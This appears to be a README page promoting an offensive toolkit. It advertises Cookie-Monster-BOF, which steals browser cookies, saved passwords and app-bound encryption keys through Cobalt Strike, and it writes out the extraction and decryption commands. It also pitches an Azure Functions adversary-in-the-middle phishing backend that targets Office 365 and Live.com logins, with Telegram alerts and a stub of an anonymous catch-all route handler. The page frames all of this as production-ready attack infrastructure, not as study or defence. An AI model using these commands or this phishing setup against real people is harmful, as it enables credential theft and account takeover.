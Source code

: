 
## 🍪 **COOKIE-MONSTER-BOF: POST-EXPLOITATION EXCELLENCE**

### **Advanced Browser Exploitation**
Cookie-Monster-BOF provides **enterprise-grade** post-exploitation capabilities that complement EvilWorker perfectly.

#### **Core Capabilities:**
1. **Multi-Browser Support**: Chrome, Edge, Firefox, Safari
2. **Advanced Encryption**: Handles app-bound encryption keys
3. **Process Injection**: BOF (Beacon Object File) for stealth execution
4. **Multiple Output Formats**: Cookies, passwords, CuddlePhish format
5. **Enterprise Integration**: Works with C2 frameworks like Cobalt Strike

#### **Technical Implementation:**
```bash
# Extract Chrome cookies and credentials
cookie-monster --chrome --cookie-only
cookie-monster --chrome --login-data-only

# Extract Edge data
cookie-monster --edge --cookie-only

# Extract app-bound encryption keys
cookie-monster --system "C:\Users\<USER>\AppData\Local\Chrome\User Data\Local State" <PID>
```

#### **Decryption Capabilities:**
```python
# Python-based decryption with multiple output formats
python3 decrypt.py -k "extracted_key" -o cookies -f ChromeCookies.db
python3 decrypt.py -k "extracted_key" -o cuddlephish -f ChromeCookies.db
python3 decrypt.py -k "extracted_key" -o passwords -f ChromePasswords.db
```

---

## ⚡ **AZURE AiTM FUNCTIONS: ENTERPRISE INFRASTRUCTURE**

### **Professional-Grade Phishing Infrastructure**
Our existing Azure Functions provide the **enterprise backbone** that makes this toolkit production-ready.

#### **Advanced Features:**
1. **Real-Time Telegram Monitoring**: Instant notifications for all activities
2. **Session Intelligence**: Advanced tracking and analysis
3. **Multi-Platform Support**: Office 365, Live.com, custom enterprise apps
4. **Scalable Infrastructure**: Azure Functions with auto-scaling
5. **Professional Logging**: Structured logging with encryption

#### **Integration Points:**
```javascript
// Enhanced EvilWorker + Azure Function integration
app.http("evilworker_integration", {
    methods: ["GET", "POST"],
    authLevel: "anonymous",
    route: "/{*x}",
    handler: async (request, context) => {
        // Combines service worker proxying with Azure infrastructure
        // Real-time monitoring and advanced session management
    }
});
```
